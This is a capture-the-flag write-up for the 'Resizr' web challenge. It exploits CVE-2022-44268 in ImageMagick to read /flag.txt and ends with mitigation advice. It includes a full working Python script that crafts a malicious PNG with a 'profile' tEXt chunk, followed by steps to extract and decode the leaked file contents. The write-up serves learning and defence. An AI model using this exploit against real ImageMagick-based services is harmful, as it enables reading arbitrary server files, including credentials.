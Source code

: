 # Resizr CTF Challenge Writeup

## Challenge Overview
- **Name**: Resizr
- **Category**: Web
- **Description**: "It's like magick!"
- **Attached**: [`resizr.zip`](./Files/resizr.zip)

## Initial Analysis

The challenge provides a Dockerfile and Flask application that:

1. Installs ImageMagick 7.1.0-49
2. Provides an endpoint to upload PNG images
3. Uses ImageMagick to resize uploaded images to 50%
4. Returns the processed image

Key files from the challenge:

- `flag.txt` is stored in `/flag.txt`
- The application uses `subprocess.run(["magick", "-", "-resize", "50%", "png:-"])` to process images

## Vulnerability Identification

The specific ImageMagick version (7.1.0-49) is vulnerable to **CVE-2022-44268** - an information disclosure vulnerability that allows reading arbitrary files through PNG metadata manipulation.

## Exploitation Strategy

The vulnerability works by:

1. Crafting a malicious PNG with a `tEXt` chunk containing `profile` keyword
2. Setting the profile value to the target file path (`/flag.txt`)
3. When ImageMagick processes this PNG, it reads the specified file
4. The file content gets embedded in the output PNG's metadata as hex-encoded data

## Solution Implementation

### Step 1: Create Malicious PNG

```python
#!/usr/bin/env python3
import struct
import zlib

def create_malicious_png(target_file="/flag.txt"):
    """
    Create a malicious PNG that exploits CVE-2022-44268
    to read arbitrary files via ImageMagick
    """
    
    # PNG signature
    png_signature = b'\x89PNG\r\n\x1a\n'
    
    # IHDR chunk (image header) - 1x1 pixel RGB image
    width = 1
    height = 1
    bit_depth = 8
    color_type = 2  # RGB
    compression = 0
    filter_method = 0
    interlace = 0
    
    ihdr_data = struct.pack('>IIBBBBB', width, height, bit_depth, color_type, 
                           compression, filter_method, interlace)
    ihdr_crc = zlib.crc32(b'IHDR' + ihdr_data) & 0xffffffff
    ihdr_chunk = struct.pack('>I', len(ihdr_data)) + b'IHDR' \
			+ ihdr_data + struct.pack('>I', ihdr_crc)
    
    # tEXt chunk with profile keyword pointing to target file
    # This is the key to the exploit - ImageMagick will try to read this as a file path
    txt_keyword = b'profile'
    txt_content = target_file.encode('ascii')
    txt_data = txt_keyword + b'\x00' + txt_content
    txt_crc = zlib.crc32(b'tEXt' + txt_data) & 0xffffffff
    txt_chunk = struct.pack('>I', len(txt_data)) + b'tEXt' \
			+ txt_data + struct.pack('>I', txt_crc)
    
    # IDAT chunk (image data) - minimal data for 1x1 RGB pixel
    # Raw image data: one white pixel (RGB: 255,255,255)
    raw_data = b'\x00\xff\xff\xff'  # Filter byte + RGB values
    compressed_data = zlib.compress(raw_data)
    idat_crc = zlib.crc32(b'IDAT' + compressed_data) & 0xffffffff
    idat_chunk = struct.pack('>I', len(compressed_data)) + b'IDAT' \
			+ compressed_data + struct.pack('>I', idat_crc)
    
    # IEND chunk (end of image)
    iend_crc = zlib.crc32(b'IEND') & 0xffffffff
    iend_chunk = struct.pack('>I', 0) + b'IEND' + struct.pack('>I', iend_crc)
    
    # Combine all chunks
    png_data = png_signature + ihdr_chunk + txt_chunk + idat_chunk + iend_chunk
    
    return png_data

# Generate the exploit
malicious_png = create_malicious_png("/flag.txt")
with open('exploit.png', 'wb') as f:
    f.write(malicious_png)
```

### Step 2: Upload and Process

1. Upload `exploit.png` to the `/upload` endpoint
2. Download the returned processed image (`out.png`)

### Step 3: Extract Flag from Metadata

```bash
strings out.png
```

Output shows:
```
HtEXtRaw profile type txt
      18
5356555343477b743373745f666c34677d0a
```

### Step 4: Decode Hex Data

The hex string `5356555343477b743373745f666c34677d0a` contains our flag:

```python
>>> bytes.fromhex('5356555343477b743373745f666c34677d0a')
b'SVUSCG{t3st_fl4g}\n'
```

## Flag
**SVUSCG{t3st_fl4g}**

## Key Learnings

1. **Version-specific vulnerabilities**: Specific ImageMagick versions have known CVEs
2. **PNG structure**: Understanding PNG chunk format is crucial for crafting valid exploits
3. **Metadata extraction**: File content gets embedded as hex-encoded metadata in processed images
4. **CVE-2022-44268**: This vulnerability allows arbitrary file reads through PNG profile manipulation

## Mitigation

- Update ImageMagick to a patched version
- Implement input validation and sanitization
- Use security policies to restrict ImageMagick's file system access
- Consider using safer image processing alternatives for user uploads